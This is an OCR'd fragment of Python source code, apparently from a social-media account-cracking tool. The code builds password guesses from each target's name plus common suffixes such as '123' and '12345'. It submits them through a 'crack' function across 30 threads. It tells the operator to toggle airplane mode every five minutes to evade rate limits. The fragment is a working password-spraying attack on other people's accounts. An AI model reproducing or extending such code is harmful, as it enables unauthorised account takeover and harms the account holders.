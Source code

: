 	passmen=input('\n [#] Select Pass : ')

	if passmen in ['1','01']:

		first()

	elif passmen in ['2','02']:

		name()

	elif passmen in ['3','03']:

		name2()

	else:

		passmenu()

		

def first():

	clear()

	print(logo);print( ' [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n')

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()

			frs = nmf.split(' ')[0]

			pwv = ['445566']

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(frs+'123')

					pwv.append(frs+'12345')

			else:

				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

					pwv.append(frs+'123')

					pwv.append(frs+'12345')

			if 'mobile' in method:

				pool.submit(crack,idf,pwv)
